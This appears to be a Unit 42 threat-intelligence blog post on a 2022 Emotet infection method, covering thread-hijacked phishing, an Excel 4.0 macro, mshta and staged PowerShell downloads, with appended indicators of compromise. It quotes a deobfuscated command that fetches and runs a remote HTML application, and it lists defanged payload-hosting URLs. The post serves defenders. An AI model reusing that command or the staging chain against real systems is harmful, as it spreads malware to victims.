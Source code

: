 # Reference for threat actor for "Mummy Spider, TA542"

**Title**: New Emotet Infection Method

**Source**: https://unit42.paloaltonetworks.com/new-emotet-infection-method/

## Content

























New Emotet Infection Method






































































 



































Menu






Tools
ATOMs
Security Consulting
About Us
Under Attack?
 












New Emotet Infection Method


69,476
 people reacted

24
  5  min. read



Share 


















 







          By Saqib Khanzada, Tyler Halfpop, Micah Yates and Brad Duncan 
February 15, 2022 at 6:00 AM
Category: Malware
Tags: Emotet, Macros, Phishing, Windows



 



 
This post is also available in: 
    日本語 (Japanese)Executive Summary
As early as Dec. 21, 2021, Unit 42 observed a new infection method for the highly prevalent malware family Emotet. Emotet is high-volume malware that often changes and modifies its attack patterns. This latest modification of the Emotet attack follows suit.
The new attack delivers an Excel file through email, and the document contains an obfuscated Excel 4.0 macro. When the macro is activated, it downloads and executes an HTML application that downloads two stages of PowerShell to retrieve and execute the final Emotet payload.
Palo Alto Networks customers are protected from Emotet and similar malware families using similar obfuscation techniques with Cortex XDR or the Next-Generation Firewall with the WildFire and Threat Prevention security subscriptions.



Primary Malware Discussed
Emotet


Operating System Affected
Windows


Related Unit 42 Topics
Malware, macros, phishing



Table of Contents
History of Emotet
Example of an Initial Email Lure
Excel Document
PowerShell
Conclusion
Indicators of Compromise
History of Emotet
Emotet was first discovered as a banking trojan in 2014, and it has been very active in recent years. In January 2021, law enforcement and judicial agencies took down the Emotet botnet infrastructure, but Emotet returned in November 2021 and has remained active since then.
Emotet frequently uses thread hijacking as part of its attack method. As described in our previous blog on Emotet’s thread hijacking, this technique generates fake replies based on legitimate emails stolen from mail clients of Windows hosts previously infected with Emotet. The botnet uses this stolen email data to create fake replies impersonating the original senders.
Using thread hijacking and other types of emails, Emotet has implemented different infection methods since its return. Most notable were emails with links to install a fake Adobe Windows App Installer Package in December 2021. After a holiday break, Emotet returned to attachment-based emails in January 2022. As early as Dec. 21, 2021, Emotet started using a new infection method, which we describe in this blog.
In some cases, Emotet uses a password-protected zip archive as an attachment to its email. In other cases, Emotet uses an Excel spreadsheet directly attached to the email.
Example of an Initial Email Lure
Shown in Figure 1, this example of an initial email lure sent by Emotet is a recent example of Emotet’s thread hijacking. The stolen email thread is from June 2021, and this email was sent by the Emotet botnet on Jan. 27, 2022. This example contains an encrypted zip file in an attempt to bypass security systems. The password to the zip file is included in the email, so that the victim can extract the contents.
 
Figure 1. Example of a thread-hijacked Emotet email lure sent on Jan. 27, 2022.
Excel Document
The encrypted zip file contains a single Excel document with Excel 4.0 macros. These macros are an old Excel feature that is frequently abused by malicious actors. The victim must enable macros on a vulnerable Windows host before the malicious content is activated.
Figure 2. Excel 4.0 macro document.
When the macro code is enabled, it executes cmd.exe to run mshta.exe with an argument to retrieve and execute a remote HTML application. The code utilizes hex and character obfuscation in order to attempt to bypass static detection measures. The deobfuscated command string that is executed is: cmd /c mshta hxxp://91.240.118[.]168/se/s.html
Figure 3. Excel 4.0 macro code that executes cmd and mshta.
The HTML application shown in Figure 4 is highly obfuscated. It will download and execute additional PowerShell code.
Figure 4. Obfuscated HTML application.
PowerShell
The initial obfuscated PowerShell script shown in Figure 5 connects to hxxp://91.240.118[.]168/se/s.png. This URL returns text-based script for a second-stage set of PowerShell code designed to retrieve an Emotet binary.
Figure 5. Initial PowerShell downloader.
This second-stage PowerShell code shown in Figure 6 contains 14 URLs to retrieve the Emotet binary. The script attempts each URL until an Emotet binary is successfully downloaded. Having multiple URLs makes this attack more resilient in the event that one of the URLs is taken down.
Figure 6. HTTP traffic showing the second-stage PowerShell code.
The Emotet DLL loads an encrypted PE from its resource section as the final stage of this attack chain.
Figure 7. Emotet DLL with an encrypted PE from its resource section.
Conclusion
Emotet is a highly-active malware family that frequently changes its infection techniques. These changes are likely an attempt to avoid detection. Emotet’s new attack chain reveals multiple stages with different file types and obfuscated script before arriving at the final Emotet payload.
Palo Alto Networks customers are protected from malware families using similar obfuscation techniques with Cortex XDR or the Next-Generation Firewall with WildFire and Threat Prevention security subscriptions.
Indicators of Compromise
Appendix A: Files From Emotet Email Lure on Jan. 27, 2022
SHA256 hash: 9f22626232934970e4851467b7b746578f0f149984cd0e4e1a156b391727fac9
File size: 40,929 bytes
File name: form.zip
File description: Password-protected encrypted zip archive seen on Jan. 27, 2022
Password: EHGWQARLC
SHA256 hash: 6d55f25222831cce73fd9a64a8e5a63b002522dc2637bd2704f77168c7c02d88
File size: 77,989 bytes
File name: form.xlsm
File description: Excel file with Excel 4.0 macros extracted from the above zip archive
Appendix B: PowerShell Script Seen on Jan. 27, 2022
SHA256 hash: 9bda03babb0f2c6aa9861eca95b33af06a650e2851cce4edcc1fc3abd8e7c2a1
File size: 10,986 bytes
File location: hxxp://91.240.118[.]168/se/s.html
File description: First-stage PowerShell script
SHA256 hash: 5bd4987db7e6946bf2ca3f73e17d6f75e2d8217df63b2f7763ea9a6ebcaf9fed
File size: 1,353 bytes
File location: hxxp://91.240.118[.]168/se/s.png
File description: Second-stage PowerShell script
Appendix C: URLs Hosting the Emotet DLL on Jan. 27, 2022
hxxp://unifiedpharma[.]com/wp-content/5arxM/
hxxp://hotelamerpalace[.]com/Fox-C404/LEPqPJpt4Gbr8BHAn/
hxxps://connecticutsfinestmovers[.]com/Fox-C/mVwOqxT17gVWaE8E/
hxxp://icfacn[.]com/runtime/n7qA2YStudp/
hxxps://krezol-group[.]com:443/images/PmLGLKYeCBs5d/
hxxp://ledcaopingdeng[.]com/wp-includes/Qq39yj7fpvk/
hxxp://autodiscover.karlamejia[.]com/wp-admin/hcdnVlRIiwvTVrJjJEE/
hxxps://crmweb[.]info:443/bitrix/rc9XjtwF/
hxxp://accessunited-bank[.]com/admin/hzIgVwq8btak/
hxxp://pigij[.]com/wp-admin/MVW5/
hxxp://artanddesign[.]one/wp-content/uploads/A2cZL7/
hxxp://strawberry.kids-singer[.]net/assets_c/WAdvNT84Dmu/
hxxps://eleccom[.]shop:443/services/AEjSDj/
hxxps://izocab[.]com/nashi-klienty/B5SC/
Appendix D: Example of Emotet DLL on Jan. 27, 2022
SHA256 hash: 2de72908e0a1ef97e4e06d8b1ba3dc0d76f580cdf36f96b5c919bea770b2805f
File size: 516,096 bytes
File location: hxxp://unifiedpharma[.]com/wp-content/5arxM/
File location: C:\Users\Public\Documents\ssd.dll
File location: C:\Users\[username]\AppData\Local\[random characters]\[random characters].[random characters]
Run method: rundll32.exe [filename],[any string]
Updated Feb. 15, 2022, to list earlier dates of initial observation of the infection method.

Get updates from  Palo Alto Networks!
Sign up to receive the latest news, cyber threat intelligence and research from us














Please enter your email address!







Please mark, I'm not a robot!



By submitting this form, you agree to our Terms of Use and acknowledge our Privacy Statement.




















Popular ResourcesResource Center
Blog
Communities
Tech Docs
Unit 42
Sitemap
Legal NoticesPrivacy
Terms of Use
Documents
AccountManage Subscriptions
 
Report a Vulnerability
 



© 2024 Palo Alto Networks, Inc. All rights reserved.























